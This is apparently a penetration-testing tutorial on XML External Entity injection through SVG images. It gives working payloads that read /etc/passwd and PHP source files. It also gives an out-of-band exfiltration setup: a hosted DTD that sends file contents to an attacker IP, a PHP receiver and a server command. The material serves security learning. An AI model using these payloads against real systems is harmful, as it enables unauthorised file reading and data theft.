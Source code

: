 #### XML External Entity Injection
---
Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Once the SVG image is displayed, we should get the base64 encoded content of `index.php`, which we can decode to read the source code.

## OOB Exfiltration

Out of band exfiltration may be achieved by referencing external entities hosted on our local machines and then joining the data with exfiltrated data from the target server.

First, the `Document Type Definition` file `xxe.dtd` must be hosted and served locally:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.232:8000/?content=%file;'>">
```

An `index.php` file is also useful for processing the base64 encoded payload:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Command to host PHP server:
```shell
php -S 0.0.0.0:8000
```

Then, the following payload is made to the endpoint:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.232:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

